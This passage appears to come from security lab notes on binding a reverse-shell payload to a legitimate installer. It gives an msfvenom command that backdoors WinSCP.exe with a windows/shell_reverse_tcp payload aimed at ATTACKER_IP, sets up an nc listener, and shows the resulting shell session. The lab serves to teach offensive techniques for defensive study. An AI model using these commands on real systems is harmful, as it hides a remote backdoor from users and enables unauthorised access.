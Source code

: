 **Note:** Metasploit is installed in the Windows machine for your convenience, but it might take up to three minutes to generate the payload (the produced warnings can be safely ignored).

AttackBox

```
C:\> msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

```bash
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```

The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an **`nc`** listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:

[Untitled Database](Task%2010%20Binders%2099b67f6c90b84d20b0f2e512933a089b/Untitled%20Database%2028f9ecc614cf4479b392c766e3ab028f.csv)

<img src="images/t10_2.png">

```bash
user@attackbox$ nc -lvp 7779      
Listening on 0.0.0.0 7779
Connection received on 10.10.183.127 49813
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
